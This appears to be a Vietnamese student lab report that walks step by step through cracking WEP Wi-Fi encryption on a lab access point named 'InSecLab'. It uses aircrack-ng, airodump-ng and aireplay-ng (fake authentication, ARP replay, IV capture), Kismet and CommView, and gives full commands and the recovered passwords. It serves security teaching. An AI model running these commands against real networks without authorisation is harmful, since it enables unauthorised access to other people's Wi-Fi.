 # Báo cáo đồ án môn học
## 1. Môi trường thực hành
Cấu hình phần cứng: Laptop Dell Intel(R) Core i7-4510U 2.00GHz 8GB RAM
Card Wifi: TENDA-W311U+
Máy ảo: Kali Linux 2020
## 2. Sử dụng Aircrack-ng + Airodump-ng + Aireplay-ng để bẻ khóa các mật mã đơn giản
### Bước 1: Tìm đối tượng để thực hiện tấn công.
Sử dụng **airodump-ng** để tìm kiếm các wifi có mã hóa WEP
```sh 
 $ airodump-ng wlan0mon
```
![Thu thập thông tin wifi lân cận](images/airodump-ng.png)

Các thông tin về wifi:
- BSSID: **C0:4A:00:71:34:9c** (là địa chỉ MAC của AP).
- Channel: **11** (kênh giao tiếp của AP).
- ESSID: **InSecLab** (tên của wifi).
- Wifi sử dụng mã hóa **WEP**.

Thực hiện chuyển channel của wlan0mon thành **11** (giống với channel của AP)
```sh
 $ iwconfig wlan0mon channel 11
```

### Bước 2: Kiểm tra Packet Injection
```sh
 $ aireplay-ng -9 -e InSecLab -a C0:4A:00:71:34:9C wlan0mon
```
- -9 là lựa chọn Injection test.
- -e là tên của wifi.
- -a là địa chỉ MAC của AP.
- wlan0mon là wireless interface.

Kết quả nhận được khi thực hiện lệnh trên
![alt](images/injection_test.png)

=> Kết quả trả về thành công (**30/30: 100%**)

### Bước 3: Sử dụng airodump-ng để bắt các IV (Initial Vector)
Ở bước này chúng ta sẽ sử dụng ***airodump-ng*** để bắt các **IV** được tạo ra bởi AP.
```sh
 $ airodump-ng -c 11 --bssid C0:4A:00:71:34:9C -w CaptureIV wlan0mon
```
- -c 11 là channel của mạng wifi.
- --bssid **C0:4A:00:71:34:9C** là địa chỉ MAC của AP.
- -w CaptureIV là file chứa những IV bắt được.
- wlan0mon là wireless interface.

![alt](images/CaptureIV.png)

### Bước 4: Sử dụng aireplay-ng để tạo xác thực giả với AP
Nếu không có các kết nối nào khác vào AP thì sẽ không tạo mới các IV. Nên ta sẽ tạo ra các xác thực giả đến AP nhằm tạo ra các IV và bắt nó.
```sh
 $ aireplay-ng -1 0 -e InSecLab -a C0:4A:00:71:34:9C -h 00:0c:29:b8:bf:f1 wlan0mon
```
- -1 nghĩa là xác thực giả.
- 0 là thời gian để gửi lại gói tin.
- -e **InSecLab** là tên của wifi.
- -a **C0:4A:00:71:34:9C** là địa chỉ MAC của AP.
- -h **00:0c:29:b8:bf:f1** là địa chỉ MAC của máy chúng ta.
- **wlan0mon** là wireless interface.

![alt](images/fakeauth.png)

=> Gửi xác thực giả thành công.

### Bước 5: Sử dụng aireplay-ng tăng tín hiệu ARP để tạo ra nhiều IV
```sh
 $ aireplay-ng -3 -b C0:4A:00:71:34:9C -h 00:0c:29:b8:bf:f1 wlan0mon
```
![alt](images/ARP.png)

### Bước 6: Chờ để thu thập đủ IV cho việc crack
![alt](images/IVCrack.png)

### Bước 7: Sử dụng aircrack-ng để tìm password của AP
```sh
 $ aircrack-ng -b C0:4A:00:71:34:9C CaptureIV-01.cap
```
![alt](images/solve.png)

- Thời gian để tìm ra password là **0s**
- Password: **1234567890**

## 3. Sử dụng Kismet để Crack WEP

Sử dụng Kismet để kiểm tra các Wifi xung quanh
```sh
 $ kismet -c wlan0mon
```
Sử dụng giao diện người dùng của Kismet
![alt](images/kismet/KismetUI.png)

Nhấp vào tên wifi để xem thông tin của wifi đó (trong bài thực hành này là InSecLab)
![alt](images/kismet/wifiinfo.png)
![alt](images/kismet/wifiinfo1.png)

- Thông tin bao gồm tên Wifi
- Địa chỉ MAC của AP
- Channel của AP
- Mã hóa WEP

Sau khi thu thập được địa chỉ **MAC**, **ESSID**, **CHANNEL** của AP ta sẽ tiến hành crack nó theo các bước đã trình bày ở trên.

Tiến hành thu thập **IVs**
![alt](images/kismet/kismetIVs.png)

Tiến hành crack Wifi
```sh
 $ aircrack-ng -b C0:4A:00:71:34:9C CaptureIV.pcap
```

Kết quả
![alt](images/kismet/res.png)

=> Pass wifi: ***1234567890***

## 4. Sử dụng CommView để Crack WEP
Sử dụng CommView để kiểm tra các mạng wifi xung quanh
![CommViewScan](images/Commview/scan.png)

Xem thông tin của mạng wifi InSecLab
![CommViewInfo](images/Commview/info.png)

Cấu hình để CommView bắt các gói tin của AP InSecLab và lưu vào file log

Cấu hình Channel để CommView bắt gói tin
![CommViewConfig](images/Commview/config1.png)

Cấu hình nơi lưu trữ file log
![CommViewConfig](images/Commview/config2.png)

Tiến hành bắt gói tin
![CommViewCapture](images/Commview/capturepacket.png)

Chúng ta sẽ bắt đủ gói tin để thu thập đủ số IV cần thiết để crack WEP. Trong CommView, sau khi thu thập đủ số gói tin ta sẽ xem nó dưới dạng log
![CommViewLog](images/Commview/log.png)

- Tiến hành Export file log thành file pcapng

Sau đó chúng ta sẽ sử dụng lệnh sau để chuyển đổi file **pcapng** thành file **pcap**
```sh
 $ tshark -F pcap -r raw.pcapng -w CaptureIV.pcap
```
Thực hiện crack sử dụng **aircrack-ng**
```sh
 $ aircrack-ng CaptureIV.pcap
```
Vì CommView bắt các gói tin dựa trên 1 channel cụ thể (do mình chỉ định hoặc có thể bắt các gói tin trên mọi channel) nên trong gói tin **pcap** không chỉ hiển thị AP mà ta muốn Crack mà còn rất nhiều AP khác chạy cùng channel với channel của AP muốn Crack. Nên chúng ta phải chọn tên của AP muốn Crack để **aircrack-ng** thực hiện nhiệm vụ.

Kết quả sau khi chạy lệnh trên
![CommViewRes](images/Commview/res.png)

=> Mật khẩu: ***chudt***
